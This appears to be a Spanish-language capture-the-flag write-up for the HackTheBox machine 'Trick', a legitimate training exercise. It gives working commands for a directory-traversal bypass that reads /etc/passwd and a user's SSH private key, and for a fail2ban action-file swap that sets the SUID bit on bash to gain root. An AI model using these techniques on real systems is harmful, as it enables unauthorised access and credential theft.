 ```yaml
---
layout:   post
title:    "Write Up Trick."
subtitle: "Starting-Point"
category:   HTB
tags:      [Easy,Linux,SSTI,axfr,SQLmap,Write-Up-Machine,Starting-Point,eWPT,eWPTXv2,OSWE,OSCP]  
---
```

![list](/assets/img/trick/trick.png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando 

diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.11.166 -oA allports
```
El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}


![list](/assets/img/trick/Kali-2022-08-30-19-23-17.png){:.lead width="800" height="100" loading="lazy"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comandoa anterior debemos saber que 

versiones y servicios que corren en los mismo de ahi podremos determinara posibles 

vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -p22,25,53,80 -sV -sC 10.10.11.166 -oN target
```
El paso anterior no es nesesario ser (root).
{:.note title="Attention"}


![list](/assets/img/trick/Kali-2022-08-30-19-23-22.png){:.lead width="800" height="100" loading="lazy"}


***
## Analisis de vulnerabilidades


Uso de Investigacion web, Google Hacking,Google Dorks.

Recopilación de información gracias a servicios de terceros.

Ispeccionamos la web.

Inpeccionamos las tecnologias de la ip ataves de la terminal o via  web esto lo 

hacemos con wapalizzer o whatweb.

![list](/assets/img/trick/Kali-2022-08-30-19-27-48.png){:.lead width="800" height="100" loading="lazy"}

Ya que esta el puero 53 abierto vamos a probar el ataque de domain zone transfer 

`axfr`, esto lo hacemos con la herramienta dig.

![list](/assets/img/trick/Kali-2022-08-30-19-37-54.png){:.lead width="800" height="100" loading="lazy"}

```bash
dig trick.htb axfr @10.10.10.161 
```

{:.note}
El dominio se deduce ya que todas las maquinas de este tipo van con el nombre de la misma

y punto htb, todo los dominios los incorporamos al `/etc/hosts`.


{:.note}
El dominio `preprod-payroll.trick.htb` que metimos al `/etc/hosts`es que debemos 

recargar en la pagina web para encontrarnos con un login.

![list](/assets/img/trick/1.png){:.lead width="800" height="100" loading="lazy"}

Utilizamos sqlmap para conseguir archivos de la máquina.

![list](/assets/img/trick/Kali-2022-08-30-19-46-06.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Aunque no encontramos nada lo que podemos pensar esque exite el dominio `preprod-` y 

despues del guion puede que exita otros por lo quepodemos aplicar fuerza bruta.

![list](/assets/img/trick/Kali-2022-08-30-20-25-07.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Ahora encontramos otro dominio `preprod-marketing`en el cual encontramos algp de informacion.

inspeccionando la web vemos que se gestiona con el parametro `page=` lo que me hace pensar 

en local file inclusion pero tiene protección,pero con sqlmap podemos leer el index.php 

intentando lo que hicimos antes.

![list](/assets/img/trick/Kali-2022-08-30-20-41-09.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Cuando analizamos el contenido nos podemos fijar que remplaza  "../" a "" vacio, pero 

esta protección se puede bypassear facilmente, hay un ejemplo en el repositorio 

de [PayloadsAllTheThings]

[PayloadsAllTheThings]: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal

Ya con la forma de bypassear el lfi podemos enumerar el numero de usuarios de la  victima.

![list](/assets/img/trick/Kali-2022-08-30-20-46-51.png){:.lead width="800" height="100" loading="lazy"}

```bash
curl "preprod-marketing.trick.htb/index.php?page=..././..././..././etc/passwd" | grep bash
```
Tambien podemos enumerar la id_rsa de usuario michael para conectarnos por ssh.

```bash
curl "preprod-marketing.trick.htb/index.php?page=..././..././..././home/michael/.ssh/id_rsa"
```
Al conectarnos por ssh de la siguiente manera ya somo capaces de buscar la flag de 

user.txt en el escritorio.

![list](/assets/img/trick/Kali-2022-08-30-20-56-38.png){:.lead width="800" height="100" loading="lazy"}

```bash
 ssh michael@10.10.11.166 -i id_rsa
```

{:.note}
No debes olvidarte de darle permiso 600 a la id_rsa.

***
## Escalacion de privileguios

Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles 

vectores para escalar de privilegios, pero en este caso con sudo -l vemos ue un servicio 

fail2ban se puede reiniciar como root sin contraseña.


Debemos localizar el archivo de configuración de fail2ban.

![list](/assets/img/trick/Kali-2022-08-30-21-11-51.png){:.lead width="800" height="100" loading="lazy"}

No podemos modificar el actionban pero podemos borrarlo y crear uno nuevo asi que 

harémos lo siguiente preferentemente en /tmp.

![list](/assets/img/trick/Kali-2022-08-30-21-14-58.png){:.lead width="800" height="100" loading="lazy"}

```bash
sed "s/<iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>/chmod u+s \/bin\/bash/g" /etc/fail2ban/action.d/iptables-multiport.conf > config.conf
```

{:.note}
injectaremos ese one-liner en config.conf.


```bash
rm -f /etc/fail2ban/action.d/iptables-multiport.conf
```

{:.note}
Borramos el archivo `iptables-multiport.conf`.


```bash
mv config.conf /etc/fail2ban/action.d/iptables-multiport.conf
```

{:.note}
Movemos config.conf a la ruta en action.d con el nombre`iptables-multiport.conf` .


Reiniciaremos el servicio y aplicaremos fuerza bruta con `Hydra` para forzar el ban

Ahora si como ya no estamos restingidos a nivel de iptables podemos usar Hydra y después 

dealgunos segundos la bash deberia de convertirse en suid y nos convertimos root.


![list](/assets/img/trick/Kali-2022-08-30-21-18-19.png){:.lead width="800" height="100" loading="lazy"}

En estepunto usaremos `ls -la` para ver debe de estr con la letra "s" y luego 

con el comado `bash -p` non comvertimos en root.

![list](/assets/img/trick/Kali-2022-08-30-21-38-25.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
La flag de rootsueleestr en el escritorip del usuario /root.

***
```bash
🎉 Felicitaciones ya has comprometido Trick de HackTheBox 🎉
```
{:.centered}
***
<!---Back to [Beginner Track](2022-09-12-Beginner-Track.md){:.heading.flip-title}
{:.read-more}-->
